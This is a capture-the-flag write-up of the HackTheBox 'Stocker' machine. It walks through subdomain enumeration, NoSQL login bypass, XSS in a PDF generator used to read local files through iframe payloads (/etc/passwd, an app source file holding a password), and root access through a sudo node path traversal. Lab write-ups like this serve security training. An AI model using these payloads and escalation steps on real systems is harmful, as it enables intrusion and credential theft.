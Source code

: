 ```yaml
---
title: Stocker
author: TDSSEC
date: 2023-02-28 00:34:00 +0800
categories: [HTB Machines, Stocker]
tags: [HTB]
image:
  path: /2023-02-28-Stocker/Stocker.png
  #lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Stocker HackTheBox
---
```

# Stocker
>- Easy Difficulty
>- Subdomain Enumeration
>- XSS to SSRF
>- Sudo permissions on .js files

# Enumeration  
First lets add it to our hosts file:  
`echo "10.10.11.196 stocker.htb" >> /etc/hosts`

## nmap  
`nmap 10.10.11.196 -sV`  
![nmap](/2023-02-28-Stocker/nmap.png){: width="500" height="102"}

## Port 80
### Empty site
All that is present here is an empty site. A template that has not been finished with messages suggesting it will be coming soon and that users will get to register.  

### Subdomain enumeration
`gobuster dns --domain stocker.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt`

![dev](/2023-02-28-Stocker/subdomain.png){: width="500" height="102"}

Add this to the hosts file and load the page.  
`echo "10.10.11.196 dev.stocker.htb" >> /etc/hosts`

![login](/2023-02-28-Stocker/login.png){: width="500" height="102"}

# NoSQL Exploit  
[HackTricks nosql injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection)

Put the request through burpsuite and lets change the content type to json, as well as the payload:

![nosql](/2023-02-28-Stocker/nosql.png){: width="500" height="102"}

![authenticated](/2023-02-28-Stocker/authenticated.png){: width="500" height="102"}

# XSS to SSRF Exploit  
[XSS to SSRF](https://namratha-gm.medium.com/chaining-bugs-escalating-xss-to-ssrf-5cd3d986a97c)

## Identify XSS  
Placing an order shows a success message and then a PDF gets generated.  
![purchase](/2023-02-28-Stocker/purchase1.png){: width="500" height="102"}
![purchase2](/2023-02-28-Stocker/purchase2.png){: width="500" height="102"}
![pdf](/2023-02-28-Stocker/pdf.png){: width="500" height="102"}


Changing the Title parameter to insert an image payload proves this is susceptible to XSS.  
![xxs](/2023-02-28-Stocker/xss1.png){: width="500" height="102"}
![xxs](/2023-02-28-Stocker/xss-2.png){: width="500" height="102"}

## SSRF  
Now to request the `/etc/passwd` file.

Increase the size so we can fully see the results:
`<iframe src=file:///etc/passwd height=800px width=800px></iframe>`

## Username identified
`angoose`  
![login](/2023-02-28-Stocker/angoose.png){: width="500" height="102"}

## Password Identified  
dev subdomain was enumerated earlier, and we know this is using js files.

`<iframe src=file:///var/www/dev/index.js height=800px width=800px></iframe>"`
![login](/2023-02-28-Stocker/password-user.png){: width="500" height="102"}

# User Flag
## SSH
angoose:<the password>

`cat user.txt`

# Root Flag
`sudo -l` shows the user can run any `node` `.js` file located in `/usr/local/scripts`.  
![nmap](/2023-02-28-Stocker/run-anything.png){: width="500" height="102"}

>!Unfortunately, as many others appear to copy guides online, a file called flag.js with the code entered for the root flag was already present. Always give the machine a reboot prior to starting...
{: .prompt-danger }

Here's the code:
```
const fs = require(‘fs’);
fs.readFile(‘/root/root.txt’, ‘utf8’, (err, data) => {
 if (err) throw err;
 console.log(data);
});
```
I was able to execute this and retrieve the flag with:
`sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/flag.js`

Completed!
